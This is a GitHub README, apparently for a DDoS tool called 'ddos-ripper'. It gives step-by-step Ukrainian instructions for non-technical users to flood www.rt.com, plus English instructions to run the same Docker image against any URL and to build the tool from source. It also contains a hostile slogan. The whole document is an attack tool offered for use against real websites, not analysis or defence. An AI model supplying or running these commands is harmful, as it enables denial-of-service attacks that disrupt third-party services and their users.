 # Для нетехнічних котиків і киць
Інструкція як шкварити сайти хуйловської пропаганди:
1. Встановіть Docker Desktop за цим посиланням:
    https://docs.docker.com/desktop/windows/install/
2. Встановіть і увімкніть VPN
3. Запустіть термінал:
    http://xn--j1a5b.dp.ua/yak-vidkriti-komandnij-ryadok-v-windows-10/
4. Запустіть наступну команду, щоб шварити www.rt.com
    docker run --rm -it nitupkcuf/ddos-ripper:latest www.rt.com
5. Щоб призупинити зашквар і трохи провітрити хату натисніть Ctrl+C

Слава Україні! Смерть ворогам!

# Docker
1. Install Docker Desktop for your plaform:
  - [Windows](https://docs.docker.com/desktop/windows/install)
  - [Linux](https://docs.docker.com/engine/install/ubuntu/)
  - [Mac](https://docs.docker.com/desktop/mac/install)
2. Run command, put your actual url instead of www.abc.com :
```
docker run --rm -it nitupkcuf/ddos-ripper:latest www.abc.com
```

# Run from CLI/sources
Python 3.10

```
git clone https://github.com/nanabanano/runner.git
cd runner
pip3 install pyinstaller
pip3 install -r requirements.txt

# mac
pyinstaller app.py --collect-all dns --add-data="headers.txt:." --add-data="DRipper.py:." --onefile

# win
pyinstaller --collect-all dns --add-data "headers.txt;." --add-data "DRipper.py;." --onefile app.py

```
see dist folder
